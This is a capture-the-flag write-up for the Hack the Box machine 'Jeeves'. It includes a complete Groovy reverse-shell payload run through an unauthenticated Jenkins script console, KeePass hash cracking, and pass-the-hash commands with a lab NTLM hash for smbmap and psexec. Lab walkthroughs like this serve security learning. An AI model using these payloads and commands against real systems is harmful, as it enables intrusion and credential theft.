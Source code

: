 ```yaml
---
title: Jeeves
tags: windows
description: Write-up for Hack the Box - Jeeves

---
```


![2021-09-24_07-52.png](assets/2021-09-24_07-52.png)

## Overview

Jeeves is a Windows 10 box running a couple web sites, one being Jenkins which did not require authentication and was leveraged to execute code via the script console and obtain the initial foothold as user kohsuke. kohsuke had a keepass file stored in the documents folder which was easily cracked with john the ripper. The keepass database contained a password hash for the administrator account which was used with impacket's psexec to get shell as 'nt authority\system'. An extra step was required to recover the root flag as NTFS alternate data streams were used to hide it.

## Enumeration

**Software**

* Windows 10 Pro 1511

* Jetty 9.4.z-SNAPSHOT

* Jenkins 2.87

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.63/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 135/tcp - Windows RPC

* 445/tcp - SMB

* 50000/tcp - http

**File/Directory Brute Force**

```
gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
```

* /askjeeves

## Steps (User)

I started taking a look at the site hosted on port 80, http://10.10.10.63 and was presented with a Ask Jeeves search page. 

![2021-09-25_16-13.png](assets/2021-09-25_16-13.png)

Typing in a search query (random characters) displayed an image of an error message which I found a bit strange. The error message showed some potentially useful information about the software running on the box if it could be trusted. I took note and moved on.

![2021-09-25_16-23.png](assets/2021-09-25_16-23.png)

Checking out the site running on port 5000, I was presented with a page displaying an error and the name and version of the web server software - Jetty 9.4.z-SNAPSHOT. 

![2021-09-25_16-14.png](assets/2021-09-25_16-14.png)

The gobuster scan showed another page called askjeeves and after browsing to it, I was brought to a Jenkins page. Jenkins is used for automating software development related to building, testing, deploying and facilitating CI/CD (continuous integration, continuous delivery). I've heard of jenkins being exploited in the past, so this is where I decided to focus.

![2021-09-25_16-29.png](assets/2021-09-25_16-29.png)

The site did not require authentication so I was able to head over to http://10.10.10.63:50000/askjeeves/script where I could execute a arbitrary [Groovy](http://www.groovy-lang.org/) scripts. There's a pretty popular script used for reverse shells [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)) that I used to successfully get a shell as user jeeves\kohsuke

```
String host="10.10.14.7";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![2021-09-25_17-26.png](assets/2021-09-25_17-26.png)

## Steps (root/system)

Poking around the file system, I found a file called C:\Users\Administrator\\.jenkins\secrets\intialAdminPassword which contained the admin password for jenkins. It was not immediately useful so I took note and moved on. 

![2021-09-25_17-30.png](assets/2021-09-25_17-30.png)

Looking around the filesystem some more, I found CEH.kdbx in kosuke's Documents folder.  I copied this down to my box and looked up how to brute force the password. Hacktricks has a section for [keypass](https://book.hacktricks.xyz/brute-force#keepass) and it describes how to use keepass2john to extract the hash so it can be cracked with John the Ripper.

```
sudo apt install kpcli keepass2
keepass2john CEH.kdbx > CEH.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ceh.hash
```

![2021-09-25_17-39.png](assets/2021-09-25_17-39.png)

John successfully cracked the password: moonshine1

![2021-09-25_17-40.png](assets/2021-09-25_17-40.png)

I was now able to open CEH.kdbx with the keepass app, specifying moonshine1 as the master key, and view the stored passwords.

![2021-09-25_17-42.png](assets/2021-09-25_17-42.png)

This took a bit of trial and error, I was basically taking these passwords and trying to authenticate via smbmap to see if any of the passwords worked. I found that I was able to authenticate using the administrator account and the "backup stuff" hash. 

```
smbmap -H 10.10.10.63 -u administrator -p aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

![2021-09-25_17-50.png](assets/2021-09-25_17-50.png)

I was able to use that hash to authenticate via psexec, and got a shell as 'nt authority\system' but the usual root.txt file that I'm used to seeing wasn' t there. Viewing the contents of the file it read:  "The flag is elsewhere. Look Deeper"

```
~/tools/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```

![2021-09-25_17-49.png](assets/2021-09-25_17-49.png)

At first I was thinking maybe there was a container running on the box somewhere, but  found no evidence of that. Then I thought of NTFS Alternate Data Streams (ADS) and how they can be used to hide data.  To check files for the presense of these, the command dir /r (or streams.exe from Sysinternals) can be used.

> ADS provides NTFS with the ability to store different "streams" of data, in addition to the default stream that is normally seen when a file is interacted with normally. The main purpose of this feature was to provide compatibility for the MacOS Hierarchical File System (HFS).

Running the command shows an ADS called root.txt

![2021-09-25_20-15.png](assets/2021-09-25_20-15.png)

Running the command below displays the contents of the ADS stream and revealed the root flag.

```
more < hm.txt:root.txt
```

![2021-09-25_20-18.png](assets/2021-09-25_20-18.png)
